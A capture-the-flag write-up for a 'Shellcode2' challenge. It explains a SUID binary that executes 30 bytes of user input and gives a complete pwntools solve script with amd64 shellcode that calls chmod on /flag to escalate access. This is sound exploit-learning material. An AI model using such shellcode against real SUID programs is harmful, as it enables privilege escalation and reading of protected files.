 # Shellcode2 writeup

Author: `misi`

---
In this challenge we are given a shell. The flag file is located at /flag, and the challenge binary is in /challenge.  
By running ls -la with /flag and /challenge/shellcode as arguments, we can see the privelieges of each file.  

<img width="559" height="146" alt="3" src="https://github.com/user-attachments/assets/d36eaa9a-17c0-4a65-972c-232c6013865d" />

Both /flag and /challenge/shellcode is owned by an 'owner' user.    
Our current user (`ctf`) does not have permission to open the flag.  
The binary /challenge/shellcode has the SUID bit set, which means it runs with the priveliges of its owner (`owner`). This allows us to potentially use it to open /flag.

### Reversing
Start by doing a checksec on the given binary to see what security features is enabled.

<img width="613" height="139" alt="1" src="https://github.com/user-attachments/assets/f13dfd82-4c91-43fa-81cb-cb07acaf3585" />

- PIE is enabled
- There is no stack canary found
- The binary is not stripped
- NX enabled

I use ghidra to decompile the given binary  
main() is the only function we need to reverse.  

<img width="751" height="783" alt="2" src="https://github.com/user-attachments/assets/4047d89e-60b3-4dbb-8abf-90a70cec4de0" />

main() will print out some information, do a mmap, making some memory region executable, and then read in 0x1e (30 in decimal) bytes into the memory region. Finally it will execute the input you sent in, before it returns.


### Exploitation
Since the shellcode can at most be 30 bytes long, it will not be possible to open and read the flag with shellcode.  
There are possibly multiple ways to solve this challenge, in this writeup I will change the permissions on the /flag file, to be able to read it as the `ctf` user.  
To do this you can use the chmod syscall, as it is only one syscall, we will be able to use less bytes for the shellcode.  
After running the shellcode, you can do `cat /flag` to print the flag to the terminal.  

Here is the final solve script:  
```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process("/challenge/shellcode")
asm_code = asm("""
               xor rax, rax
               add al, 90
               lea rdi, [rip+flag]
               mov si, 0755
               syscall
               flag:
               .string "/flag"
               """)

p.recvuntil("shellcode: ")
p.sendline(asm_code)
p.interactive()
```

